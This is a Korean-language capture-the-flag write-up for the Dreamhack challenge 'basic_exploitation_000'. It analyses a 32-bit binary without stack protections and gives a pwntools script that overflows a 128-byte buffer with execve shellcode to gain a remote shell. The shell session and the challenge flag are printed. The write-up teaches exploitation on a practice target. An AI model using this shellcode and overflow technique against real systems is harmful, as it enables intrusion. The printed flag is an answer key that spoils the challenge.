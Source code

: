 ## 문제에서 주어진 환경
Ubuntu 16.04
Arch: i386-32-little RELRO: No RELRO
Stack: No canary found NX: NX disabled
PIE: No PIE (0x8048000) RWX: Has RWX segments

-> 32비트 환경이므로 4바이트 단위로 데이터를 처리한다
-> canary가 없으므로 BOF 공격에 용이하다

## 주어진 코드 분석

```
int main(int argc, char *argv[]) {
    char buf[0x80]; // 128 비트

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf); // 141 비트, 13 비트가 남는다.

    return 0; 
}
```

주어진 코드에서 buf는 128바이트로 선언되었지만, scanf를 통해 141 바이트를 불러온다.
여기서 BOF의 가능성을 볼 수 있다.

공격을 하기 위해서는 buf의 시작주소를 알아야 한다.

## ghidra를 통해 프로그램을 분석해보자

<img width="452" alt="image" src="https://github.com/ffvv0123/kuaility-2023-01/assets/63843822/c5ef3fed-6705-48ce-8e2f-eda468313cda">
</br>

080485f2 83 c4 08 ADD ESP,0x8 </br>
080485f5 8d 45 80 LEA EAX=>local_84,[EBP + -0x80] </br>

위 부분에서 scanf 함수를 통해 ebp + -0x80부터 입력된 값이 저장됨을 알 수 있다.

32비트 환경에서 시스템 스택의 구조는 다음과 같다.
- BUF - CANARY - SFP - RET

여기에서 CANARY는 존재하지 않으므로, 128바이트 BUF + 4바이트 SFP + RET로 이루어짐을 알 수 있다.
-> shell code가 포함된 132바이트 문자열 + 버퍼의 시작주소를 입력한다면 시스템 권한을 취득할 수 있다.

## 파이썬을 통한 시스템 권한 취득
```
from pwn import *

p = remote("host3.dreamhack.games", 10666)

p.recvuntil(b"buf = (") 
buf = int(p.recv(10), 16) 
p.recvuntil(b"\n")

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\ x08\x40\x40\x40\xcd\x80"
payload += b"\x80" * 106
payload += p32(buf)

p.sendline(payload) 
p.interactive()
```
사이트에서 접속정보에 있는 host이름과 포트번호를 remote()를 통해 불러온다.

recvuntil(), recv()는 데이터를 받아오는 함수이다. 
recvuntil(b”string”)은 현재 포인터에서 문자열까지 받아온다. 
recv(int)는 int만큼 데이터를 받아온다.

위에서 분석한 코드를 보면 s_buf_=_(%p) 형식으로 되어있다.
이는 문자열 “buf = (%p)”로 되어 있다는 것으로, 우리에게 필요한 부분만 가져오기 위해 주소 앞까 지 먼저 처리한다.

그러고 난 뒤 0xMMMMMMMM형태의 수(10자리)를 16진수 형태로 받아서 정수로 저장한다.
남아있는 문자열의 끝은 \n이기 떄문에 \n까지 데이터를 받아오는 식으로 나머지를 정리한다.
RET 데이터에 BUF의 주소를 넣고, 앞에 132 바이트를 셸코드와 나머지로 만든다면 원하는 권한을 얻을 수 있다.

payload = [shell code] + [임의의 데이터 -> 132바이트] + [buf의 주소]가 되고, 이는 c코드에서 입력하는 buf이다.

shell code는 구글링을 통해 기본적인 26바이트 코드로 가져왔다.
나머지 106바이트를 아무 수로 만들고 마지막에 buf의 주소를 연결한다.
32비트 환경에서는 4바이트 단위로 쪼개기 때문에 p32()함수를 사용해 주소를 나눈다.

이렇게 만들어진 payload를 입력하고 상호작용을 하면 다음과 같은 결과를 얻는다.
```
[+] Opening connection to host3.dreamhack.games on port 10666: Done
[*] Switching to interactive mode
$ ls
basic_exploitation_000
flag
run.sh
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$ 
[*] Got EOF while reading in interactive
```



정답은 DH{465dd453b2a25a26a847a93d3695676d} 이다.
